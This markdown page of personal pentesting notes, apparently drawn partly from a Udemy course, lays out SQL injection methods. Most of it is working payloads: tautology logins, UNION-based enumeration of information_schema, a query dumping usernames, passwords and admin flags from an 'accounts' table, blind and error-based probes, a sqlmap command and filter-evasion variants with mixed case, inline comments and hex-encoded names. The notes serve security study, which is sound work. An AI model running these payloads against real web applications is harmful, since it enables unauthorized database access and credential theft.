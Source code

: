 
## SQL Testing :


- __Define__ all the user inputs and fields 

- __Confirm__ the web app backend runs SQL. One way of confi rming that the application is interacting with a backend
              database is to submit the SQL wildcard character % in a given parameter

- __Submit a single quotation__ mark as the item of data you are targeting.


- Observe whether an error occurs, or whether the result differs from the original in any other way.
  

- __submit two single quotation__ marks together for testing. Sometimes one single quote is not enough to show the error.


__Basic Payloads___


    >> ' OR 1=1 ;--
    
    >> ') OR 1=1; --
    
    
- __URL encodings__ are necessary whether you are editing the parameter’s  value directly from your browser, with an intercepting 
                    proxy, or through any other means.
    
    

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Blind SQL : 

This type of SQL injection is based on booleans : True or False .


- ' and 'a'='a

- ' and 'a'='b

- ' and substring(@@version,1,1)='5   &nbsp; |  &nbsp; find the version of the db


if you get a error means that SQL vulnerability is error based, if not means blind SQl.

For Blind SQL, we need to focus on the behavior of the application and try different queries :

>>> ' and 'a'='a    |  if data displayed mean that there is SQL vulnerability 


>>> ' UNION SELECT null;-- - |  this command is used to enumerate the database in order to know the number of columns it has


>>>  ' UNION SELECT "else1";-- - | test the query with string,or intger to see the type of data in the columns

>>>> 99999 ' UNION SELECT null;-- - |  to display our entered data on the fields


>>>  99999 UNION SELECT @@version;| @@version is to know the version of the db

>>>




Automate the process of SQL blind
>> script 

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Band SQL:

- ' and 'a'='a

- ' and 'a'='b

- 9999' UNION SELECT name,222,'else1' FROM master.syslogin; --

### Error based SQL:

- 1 or db_name()=1);

- 1 or db_name(0)=1) | increase the number until the database does not show any errors

- 

 
 &nbsp; 
 &nbsp; 
 &nbsp; 
   
### SQLmap:

- sqlmap  &nbsp; -u URL  &nbsp; -p search  &nbsp; --technique=U |  &nbsp; U for Union Selection



## [PentesMonkey CheatSheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

 &nbsp; 
 &nbsp; 
 &nbsp; 
------------------------------------------------------------------------------------------------------------------------------

## [Notes from Udemy Course]

>> http://www.site.com/news/php=7' order by 1 # |  &nbsp;  use order by 1 followed by # as a comment 

__URL Encoding__:  http://www.site.com/news/php=7' order by 1 %23

order by shows how many columns in the DB

 &nbsp; 
 &nbsp

>> ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb'

__information_schema__ is a default schema in every database

__table_schema__ is the database name 

__table_name__ is the name of the table 


The above SQL command should return the name of the schemas in the database 

 &nbsp; 
 &nbsp;
 
>>>> ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts'

>>> ' union select username, pass, is_admin from 'accounts'


&nbsp; 
&nbsp;

### Blind SQL:

Every type of injection has different discovery methods. for the Blind SQL, booleans are the key players in understanding 

whether the web app is vulnerable to the injections


>> 1' and 1=1 &nbsp; | nbsp; True 

>> 1' and 1=0 &nbsp; 
|  &nbsp; False 


>> 1' order by 1 &nbsp; 
|  &nbsp; True


>> 1' order by 10000 &nbsp; 
| &nbsp; False



__Note:__

- The exploitation part is similar to all other types of SQL injections 

- When pentesting a web application, always start with the Blind Injections as they are the complex ones, and can show

  the behavior of the application. The error based are very clear and straightforward, as they show the outputs on 

  the screen 



&nbsp;

__URL encoding of sql injection:__


- to pass certain filter sometimes it is important to convert the custom injection to URL encoding 


- Sometimes quotes or additional characters are not valid, removing them would inject the app


- Convert database names to hex in order to bypass the filter


>>  union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 0x769166


__Other ways to bypass the filters__

&nbsp;

- Spaces and some statements are filtered

>> union select 1, 2, 3 %23

>> uNioN+sEleCt+1,2+%23

>> uNioN/**/sEleCt/**/1,2/**/%23



